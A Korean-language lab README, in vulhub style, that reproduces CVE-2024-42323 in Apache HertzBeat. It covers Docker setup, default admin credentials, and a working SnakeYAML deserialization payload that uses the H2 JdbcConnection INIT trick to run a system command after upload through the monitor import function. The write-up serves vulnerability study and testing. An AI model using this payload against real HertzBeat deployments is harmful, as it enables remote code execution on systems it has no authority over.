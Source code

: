 # Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hertzbeat/CVE-2024-42323/README.zh-cn.md)


<br>

### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

![docker compose 실행 화면](images/docker_compose_up.png)

![hertzbeat 로그인 화면](images/hertzbeat_login.png)

- 아이디: admin
- 비밀번호: hertzbeat


<br>

### 취약점 재현 (공격 설명)

#### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

![.yaml 파일 생성 화면](images/create_malicious_yaml.png)

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.


<br>

#### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

![import 화면](images/yaml_import_screen.png)



1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.
   

<br>


#### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

![sucess 화면](images/success_file_created.png)






<br>

### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)
